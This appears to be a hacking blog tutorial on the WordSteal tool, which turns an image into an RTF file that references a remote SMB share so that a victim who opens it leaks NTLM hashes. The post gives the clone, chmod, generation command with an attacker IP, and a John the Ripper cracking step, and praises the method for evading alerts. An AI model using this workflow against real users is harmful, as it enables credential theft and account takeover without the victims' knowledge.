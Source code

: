 # Stealing-Windows-credentials-using-MS-Office-Document
Stealing Windows credentials using MS Office Document


 Hello my little Freaks ! Hackfreaks here .Today you will find something incredible in this article related to a recently launched script called "WORD STEAL", which can increasingly define your hacking skills. Brought to you by hackfreaks official. This script will create a POC that will steal NTLM hashes from the remote computer.

 
 Microsoft Word can include images from remote locations.  This is an undocumented feature, but malware creators discovered that it was being used to add images via http to get statistics.  We can also enable remote files on the SMB server and the victim will authenticate using their credentials.  This is very useful during pentests because it allows you to steal credentials without triggering any alerts, and most security applications do not detect this.

 
 First, we need to download it from Github, open a terminal in Kali Linux and enter the following command.


◾️ git clone


https://github.com/0x090x0/WordSteal.git

 
 Now open the downloaded word steal folder where you will get the "main.py" python script and grant all permissions to the main.py script if needed.

 
 chmod 777 main.py


As the author described, this script will convert an image or say .jpg to .rtf (Microsoft Word file).  The Rich Text Format is a proprietary published specification document file format developed by Microsoft for cross-platform document exchange with Microsoft products.  ...


After that, download the image and save it in the Wordsteal folder, since I currently have a "1.jpg" image, we need to enter the following command which generates an .rtf file that steals NTLM hashes from the remote computer.


python main.py 192.168.0.104 1.jpeg 1

 
 The above command will generate a .rtf file as you can see in this screenshot after sending the 1.rtf file to the remote computer.


When the victim opens 1.rtf (like a Microsoft Word file) on their system, on the other hand, the attack will receive NTLM hashes.


Inside Word Steal, we have stolen credentials without triggering any alerts, which you can observe in the following image.  Now use john the ripper password cracking tool to crack the hashes in the netntlmv2 password file, or enter the following command:


John password_netntlmv2


Cool!  We can see victim's credentials that can be used to log in.
